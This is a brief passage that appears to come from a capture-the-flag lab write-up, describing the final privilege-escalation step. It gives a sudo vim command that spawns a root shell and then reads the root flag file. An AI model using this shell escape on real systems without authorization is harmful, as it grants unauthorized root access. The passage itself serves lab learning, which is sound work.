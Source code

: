   * search about use vim in privesc
  * `sudo vim -c ' : ! /bin/sh ' /usr/bin/vim`
  * `cat /root/root.txt`
<img src="/img/injector/roo.PNG" alt="Getting-gz" width="800" height="100">

* We got the final flag and complete task















